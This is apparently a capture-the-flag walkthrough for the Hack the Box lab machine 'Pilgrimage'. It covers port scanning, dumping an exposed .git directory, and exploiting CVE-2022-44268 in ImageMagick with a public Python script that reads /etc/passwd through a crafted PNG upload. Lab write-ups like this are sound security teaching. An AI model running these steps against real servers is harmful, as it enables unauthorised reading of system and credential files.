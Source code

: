 # Hack the Box - Pilgrimage

### Port Scan
```JS
rustscan -a 10.10.11.219 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e689b57a-a922-4249-bd1f-e9fa6a10c6b1)

### Service Scan
```JS
nmap -sV -sC -A --min-rate 1000 10.10.11.219 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e7088bb-eda7-48c9-a997-9aff249734e7)

### HTTP
#### /index.php
```
http://pilgrimage.htb/index.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/926d244a-ec49-4f00-b52e-2470dcf12de7)

#### /login.php
```
http://pilgrimage.htb/login.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91c3655e-75c4-4434-a7c0-6cb6ffb4f416)

#### /register.php
```
http://pilgrimage.htb/register.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ae7ea9df-3379-4ae2-9bb1-21aab0840fb0)

#### /.git
```
http://pilgrimage,htb/.git/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf236a5d-c1d5-4e61-b79b-51f8ee5df32f)

### Dump /.git
```JS
git-dumper http://pilgrimage.htb/.git/ git
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e034218-7ed2-4956-b0e3-821f84f9a665)

## Interaction
### Create Account
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8aace601-5083-47e0-9097-4d362135c8cb)

### Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/59281814-60c3-4606-aa98-5b736e27baee)

### Dashboard
```
http://pilgrimage.htb/dashboard.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2baf238c-a0fd-4fa2-8492-96816f3450e4)

### Shrink Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/28416acf-9319-4a20-aca5-0f2477231c16)

### Shrunk Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/45222057-30a0-40cb-9236-277ac66f3cdb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b7769831-449a-4948-ad62-33f08d6fbae5)

## Source Code
- The code uses "magick" to shrink the uploaded image.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e1e8ac77-b705-4a8a-a2f3-a1e887ede57d)

### Search Exploits
```
searchsploit magick
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dfc0dea8-95b2-412e-9509-488bcf24d57e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a7440d9-e578-4433-a503-4c280c16ddd1)

### Exploit - Magick (Arbitrary File Read): CVE-2022-44268
The exploit allows to read arbitrary files on the server.
The suggested exploit has been scripted using rust. Using an explot scripted using python.
```
https://github.com/kljunowsky/CVE-2022-44268
```
- Prepare Payload
```Python
python3 CVE-2022-44268.py --image image.png --file-to-read /etc/passwd --output payload.png
```
- Upload Payload
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e9cba83e-70ca-4960-a5f2-1807331d9673)

- Payload URL
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/81f3e148-a8bb-4973-8a8b-ff322b454fd6)

- Read Files
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5b8058a661.png
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7fb8b1c-f9c6-4481-8c53-532b754d4bd8)
